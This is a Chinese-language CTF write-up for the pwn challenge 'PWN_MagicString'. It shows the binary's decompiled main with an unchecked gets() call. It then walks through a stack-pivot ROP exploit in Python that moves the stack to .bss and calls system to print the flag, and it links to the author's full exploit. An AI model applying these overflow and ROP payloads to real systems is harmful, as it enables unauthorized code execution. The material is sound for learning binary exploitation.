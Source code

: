 
## PWN_MagicString (434pt)
- 题目描述：
    
    > none
- 题目附件：[PWN_MagicString](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/PWN_MagicString/PWN_MagicString)
- 考察点：栈迁移
- 难度：中等

### 程序分析

这题和签到那题差不多，就是没直接给`sh`这个字符串，给了`system`，因此也不需要泄漏libc，想办法弄出个`/bin/sh`就行，`main`函数如下，还是简单的栈溢出。

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+0h] [rbp-2A0h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  system("echo Throw away ida pro!!! I want a girlfriend!");
  gets(&v4, 0LL);
  return 0;
}
```

### 解题思路
#### 栈迁移

栈溢出可以覆盖`rbp`，然后用下面这段代码可以完成栈迁移，迁到`bss`段，同时再调用一次`gets`，把`"/bin/sh"`也读到`bss`段。

```nasm
.text:00000000004006C1    call    _gets
.text:00000000004006C6    mov     eax, 0
.text:00000000004006CB    leave
.text:00000000004006CC    retn
```

栈迁移后，通过`gets`在`bss`段布置`rop`链和字符串，就可以在`bss`段完成`rop`攻击拿到shell了。

全部流程如下：

```python
# rop1
offset = 680-8
payload = 'A'*offset
payload += p64(elf.bss()+0x800)
payload += p64(prdi) + p64(elf.bss()+0x800) + p64(0x4006c1) 
ru('Throw away ida pro!!! I want a girlfriend!\n')
sl(payload)
```

> 栈迁移，通过`pop rdi;ret`这个gadget设置`gets`的参数。

```python
# rop2
pl2 = 'AAAAAAAA'+ p64(prdi+1) + p64(prdi) + p64(elf.bss()+0x828) + p64(elf.sym['system']) + 'base64<flag\0\0\0\0\0'
sl(pl2)
```

> 这里因为不知道是不是和签到一样，有过滤了，就执行的base<flag

> `system`用的栈空间比较大，所以选用`bss+0x800`

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/PWN_MagicString) 


